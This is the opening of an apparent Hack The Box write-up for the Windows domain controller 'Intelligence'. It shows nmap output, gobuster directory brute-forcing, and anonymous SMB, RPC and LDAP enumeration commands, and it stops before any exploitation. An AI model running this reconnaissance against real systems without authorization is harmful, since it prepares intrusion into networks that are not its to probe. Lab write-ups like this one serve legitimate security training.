- Machine Name: **Intelligence**
- OS Type:: Windows
- Difficulty: Medium

we need to add Domain and machines’s DNS name to /etc/hosts file

```bash
echo "10.10.11.248 intelligence.htb dc.intelligence.htb" | sudo tee -a /etc/hosts
```



### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Tue Jul  8 04:42:29 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.10.248
Nmap scan report for 10.10.10.248
Host is up, received echo-reply ttl 127 (0.24s latency).
Scanned at 2025-07-08 04:42:36 IST for 669s
Not shown: 65516 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Intelligence
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-07 23:22:11Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-07-07T23:23:43+00:00; 0s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-07T23:23:42+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-07-07T23:23:43+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-07T23:23:42+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49744/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-07T23:23:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 4953/tcp): CLEAN (Timeout)
|   Check 2 (port 42864/tcp): CLEAN (Timeout)
|   Check 3 (port 21343/udp): CLEAN (Timeout)
|   Check 4 (port 58885/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  8 04:53:45 2025 -- 1 IP address (1 host up) scanned in 676.48 seconds

```

## Enumeration

### Port 80/HTTP

we found HTTP port is open let’s open URL in browser


i found 2 PDFs 



while accessing the document i didn’t found anything useful



i noticed that first PDF file name is - 2020-01-01-upload.pdf and the name of 2nd PDF file is 2020-12-15-upload.pdf, this might be useful but for now let’s enumerate other services

let’s run the gobuster to find hidden files and directories

```bash
gobuster dir -u http://10.10.10.248/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



let’s try to access /documents directory



No Luck 403 - Forbidden

### Port 139,445/SMB

let’s check the SMB for Null-session and anonymous login to check if we have any share access 

```bash
smbclient -L //10.10.10.248 -N
```



so here we can see that SMB allows null session/anonymous login but no share was listed, then i ran enum4linux to check if anything interesting we can find, no luck here as well.

### Port 135/MSRPC

let’s check if we have MSRPC access

```bash
rpcclient -U "" -N 10.10.10.248
```



sadly no luck here as well, moving to another service, let’s check LDAP if it allows anonymous binding

### Port 389,3268/LDAP

let’s check if LDAP allows anonymous binding, first we need DN (Distinguished Name) for the domain

```bash
ldapsearch -H ldap://10.10.10.248 -x -s base namingcontexts
```



now use this as the base to perform search

```bash
ldapsearch -H ldap://10.10.10.248 -x -b "DC=intelligence,DC=htb"
```

